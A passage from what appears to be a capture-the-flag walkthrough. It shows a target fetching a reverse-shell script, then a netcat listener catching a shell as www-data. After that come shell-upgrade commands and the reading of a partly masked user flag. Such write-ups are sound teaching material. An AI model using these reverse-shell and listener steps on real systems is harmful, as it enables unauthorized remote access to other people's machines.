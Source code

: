 There’s a hit at the webserver:

```
172.30.0.1 - - [02/Aug/2021 20:51:35] "GET /rev.sh HTTP/1.1" 200 -

```

And then a reverse shell at `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [172.30.0.9] from (UNKNOWN) [172.30.0.1] 47032
bash: cannot set terminal process group (39): Inappropriate ioctl for device
bash: no job control in this shell
www-data@web:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll upgrade my shell:

```

www-data@web:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@web:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@web:/var/www/html$ 

```

The user flag is in `/home`:

```

www-data@web:/home$ ls
user.txt  www-data
www-data@web:/home$ cat user.txt
cc0563a9************************

```

## Shell as www-data on pki

### Enumeration

#### web

